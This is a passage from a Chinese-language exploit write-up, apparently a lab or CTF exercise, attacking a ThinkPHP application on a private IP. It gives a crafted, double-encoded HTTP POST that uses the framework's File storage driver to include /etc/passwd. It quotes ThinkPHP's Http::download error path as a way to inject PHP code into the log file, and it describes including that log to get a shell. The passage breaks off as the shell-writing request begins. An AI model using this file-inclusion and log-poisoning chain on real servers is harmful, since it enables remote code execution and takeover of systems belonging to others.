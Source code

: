```http
POST /?s=home/index/textBox HTTP/1.1
Host: 172.16.30.176:58002
Content-Length: 105
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.30.176:58002
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.30.176:58002/?s=home/index/textBox
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

query=name%253D%255CThink%255CStorage%255CDriver%255CFile%2526id%253D%252Fetc%252Fpasswd%2526tag%253Dload
```
成功包含 /etc/passwd，于是找一个可以包含的可控文本文件。通过观察可以发现这个框架是有日志文件的，而且会把 E 函数的报错信息写入日志文件，搜索一个可以触发 E 函数报错且信息可控的类方法  
ThinkPHP\Library\Org\Net\Http.class.php  
```php
<?
namespace Org\Net;

class Http
    /**
     * 下载文件
     * 可以指定下载显示的文件名，并自动发送相应的Header信息
     * 如果指定了content参数，则下载该参数的内容
     * @static
     * @access public
     * @param string $filename 下载文件名
     * @param string $showname 下载显示的文件名
     * @param string $content  下载的内容
     * @param integer $expire  下载内容浏览器缓存时间
     * @return void
     */
    public static function download($filename, $showname = '', $content = '', $expire = 180)
    {
        if (is_file($filename)) {
            $length = filesize($filename);
        } elseif (is_file(UPLOAD_PATH . $filename)) {
            $filename = UPLOAD_PATH . $filename;
            $length   = filesize($filename);
        } elseif ('' != $content) {
            $length = strlen($content);
        } else {
            E($filename . L('下载文件不存在！')); # 这里把文件名赋成要写入日志的 php 代码
        }
        if (empty($showname)) {
            $showname = $filename;
        }
    
    ...
```
于是我们就可以 getshell 了，先触发报错将 shell 写入日志，再文件包含日志文件  
写 shell  
```http
POST /?s=home/index/textBox HTTP/1.1
Host: 172.16.30.176:58002
Content-Length: 143
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
```